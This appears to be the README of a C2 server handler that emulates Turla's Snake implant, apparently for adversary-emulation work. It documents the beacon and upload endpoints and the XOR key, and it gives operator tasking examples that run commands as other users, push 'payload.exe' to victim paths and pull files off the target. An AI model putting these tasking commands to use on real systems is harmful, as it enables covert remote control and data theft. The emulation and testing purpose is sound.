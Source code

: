 # Snake HTTP handler

The Snake HTTP C2 handler is the server-side counterpart for the Snake implant and is specifically designed to interact with it over HTTP.

## Components
The handler consists of an HTTP web server that listens on a specified address/port and serves the following URL endpoints:
- `GET /PUB/{identifier}`, where `{identifier}` is either a specific resource that the implant is requesting or the identifier for the implant. 
Requesting a resource of `home.html` indicates that the implant is performing a heartbeat check to see if the server is up, in which case the server will respond with `1`. Otherwise, `{identifier}` is treated as the implant ID, and the server will use this value to determine if a new session is established or if an existing implant is checking in for additional tasking.
- `POST /IMAGES/3/{instruction_id}` for submitting command output, implant logs, or a generic file upload for the instruction identified by `{instruction_id}`. The C2 server will determine if the instruction ID is for an assigned file upload - if so, the received data is stored under the same filename on the C2 server. If the instruction ID is not linked to an assigned file upload, the C2 server checks if it's one of the hardcoded log file IDs, in which case it accepts the upload as the associated log file. Otherwise, the C2 server assumes that the upload contains command output for the instruction. In this case, the C2 server will log the received command output if the instruction ID is mapped to an implant ID. On successful upload, the server will respond with `1`. Note that when accepting log fiel uploads, the server will decode and decrypt each log line before writing the destination file on the server-side.
  - Regular C2 logs will be uploaded to `/IMAGES/3/62810421015953103444` and saved under `files/C2Log.YYYY-MM-DD-HH-MM-SS.log`, where the timestamp represents the time the log was received. This prevents multiple log file uploads from overwring previous ones.
  - Execution logs will be uploaded to `/IMAGES/3/23329841273669992682` and saved under `files/ExecutionLog.YYYY-MM-DD-HH-MM-SS.log`
  - Pipe server logs will be uploaded to `/IMAGES/3/59463656487865612747` and saved under `files/PipeServerLog.YYYY-MM-DD-HH-MM-SS.log`
  - Pipe client logs will be uploaded to `/IMAGES/3/16488587954892310865` and saved under `files/PipeClientLog.YYYY-MM-DD-HH-MM-SS.log`
- `GET /IMAGES/3/{instruction_id}` to retrieve the payload associated with the given instruction ID. If no instruction with the ID is found, the C2 server will respond with an internal server error message. Note that the implant must be tasked with a payload download instruction before requesting the payload.

### Encryption
Turla has used XOR encryption for C2 communications with Snake<sup>[1](https://artemonsecurity.com/snake_whitepaper.pdf)</sup>, and we use a different XOR key:
```
1f903053jlfajsklj39019013ut098e77xhlajklqpozufoghi642098cbmdakandqiox536898jiqjpe6092smmkeut02906
```

The C2 handler uses XOR encryption in the following scenarios:
- encrypting beacon responses containing tasking
- encrypting payloads sent to implant
- decrypting command output received from implant
- decrypting log files and other file uploads received from implant

## Usage

### Configuration
To enable and configure the Snake HTTP handler within the control server, edit the `config/handler_config.yml` from the main C2 server repo. 
Adjust the Snake HTTP entry as needed.

Example:
```
snakehttp:
  host: 10.0.2.7
  port: 80
  enabled: true
```

Run the `controlServer` binary as `sudo` and look for success messages in starting up the Snake handler:
```
sudo ./controlServer
```

### Tasking Implants
To register or receive tasking for an implant session, the Snake HTTP handler expects a `GET` request for `/PUB/{identifier}`, where `{identifier}` is the implant ID. If this is the first time that the Snake HTTP handler recognizes the implant with id `{identifier}`, then it will set up a new session within the internal C2 REST server and then begin tasking the implant upon subsequent `GET` requests to the same endpoint.

For example:
```
curl http://192.168.0.4:8080/PUB/abcd # First request, registers a new implant session with ID "abcd". Returns empty task.
curl http://192.168.0.4:8080/PUB/abcd # Second request. Session for "abcd" already exists, returns a task if available, otherwise empty task.
```

As with other C2 handlers, implant tasking is performed by sending requests to the internal REST server using the `evalsC2client.py` script. 
The Snake HTTP handler will allow operators to task the following command types using a JSON dict payload format.

The JSON dict can contain the following fields:
- `type` - command type code that specifies the type of command to send (e.g. execute a process, download a file, upload a file). Must be an integer
- `command` - for type codes dealing with `cmd.exe` or powershell execution, this string represents the command to run. For example, `whoami /all` or `get-childitem .`
- `file` - for the payload download type code (`4`), this represents the filename to request from the C2 server. For the file upload task code (`5`), this represents the file path of the local file to upload.
- `dest` - for the payload download type code (`4`), this represents the destination file path to save the payload.
- `proc` - for the process execution type code (`3`), this represents the binary name/path to execute (e.g. `whoami.exe`)
- `args` - for the process execution type code (`3`), this represents the arguments to execute the process with (e.g. `/all` for `whoami.exe`)
- `runas` - for process or command execution tasks, this represents the user to create the process under (e.g. `mydomain\dummyuser`)

Below are examples of each type code:
- `{"type": 1, "command": "..."}` or `{"type": 1, "command": "...", "runas":"domain\user"}` - the command type code `01` will have the implant execute a `cmd.exe` command with the provided args. Note that a command is required for task type `1`. The implant will send the command output to the C2 server. If a username is provided via the `runas` key, the command process will be created under that user if possible.
- `{"type": 2, "command": "..."}` - the command type code `02` will have the implant execute a `powershell.exe` command with the provided args. Note that a command is required for task type `2`. The command will be encoded to UTF-16LE and then base64 encoded so that the implant can run it via `powershell.exe -nol -noni -nop -enc `. The implant will send output to the C2 server afterwards. If a username is provided via the `runas` key, the command process will be created under that user if possible.
- `{"type": 3, "proc": path_to_binary_to_execute}` or `{"type": 3, "proc": path_to_binary_to_execute, "args": "arg1 arg2 ... argN"}` - the task type code `3` will instruct the implant to execute the binary at the provided path and with the provided args, if any args are provided. The implant will send output to the C2 server afterwards. If a username is provided via the `runas` key, the command process will be created under that user if possible.
- `{"type": 4, "file": "payload_to_download", "dest": "dest_path_on_victim"}` - the task type `4` will have the implant request a file download from the C2 server for `payload_to_download`, and the file will be saved as `dest_path_on_victim`, or the snake home directory if only a file name is specified. To have the file downloaded to the current directory, use the `.\` path prefix (e.g. `.\filename`).
- `{"type": 5, "file": "path_to_file_to_upload"}` - the task type `05` will request the implant to upload a local file from the target machine, specified by `path_to_file_to_upload`
- `{"type": 6}` - the task type `6` will request the implant to upload its logs.

Examples of valid tasking:
```
./evalsC2client.py --set-task <guid> '{"type": 1, "command": "whoami /all", "runas":"testdomain\\testuser"}'
./evalsC2client.py --set-task <guid> '{"type": 1, "command": "ping 1.2.3.4"}'
./evalsC2client.py --set-task <guid> '{"type": 2, "command": "$ProgressPreference = \"SilentlyContinue\"; Get-ChildItem somedir -Recurse"}'
./evalsC2client.py --set-task <guid> '{"type": 3, "proc": "executable.exe", "args":"arg1 arg2 arg3"}'
./evalsC2client.py --set-task <guid> '{"type": 3, "proc": "C:\\path to my\\executable.exe"}'
./evalsC2client.py --set-task <guid> '{"type": 4, "file": "payload.exe", "dest":"C:\\Users\\Public\\payload.exe"}'
./evalsC2client.py --set-task <guid> '{"type": 4, "file": "payload.exe", "dest":"payload.exe"}'
./evalsC2client.py --set-task <guid> '{"type": 5, "file": "C:\\users\\public\\to_upload.txt"}'
./evalsC2client.py --set-task <guid> '{"type": 6}'
```

Examples of invalid tasking:
```
./evalsC2client.py --set-task <guid> '{"type": 1}' # 01 requires a command
./evalsC2client.py --set-task <guid> '{"type": 2}' # 02 requires a command
./evalsC2client.py --set-task <guid> '{"type": 3}' # 03 requires a command
./evalsC2client.py --set-task <guid> '{"type": 4}' # 04 requires payload information
./evalsC2client.py --set-task <guid> '{"type": 4, "file":"testingfile"}' # 04 requires both payload name and destination path/name
./evalsC2client.py --set-task <guid> '{"type": 5} # 05 requires a filename to upload
./evalsC2client.py --set-task <guid> '{"type": 12, "random":"asdb"}' # unsupported task type code
```

## Decrypting Logs
If you need to decrypt Snake log files and you don't have a responding or live implant, you can transfer the log files from the victim machine to the C2 server machine and use the `decrypt_logs.py` utility in this folder:
```
python3 decrypt_logs.py -p /path/to/log -o /path/to/output/file
```

## CTI References
1. https://artemonsecurity.com/snake_whitepaper.pdf
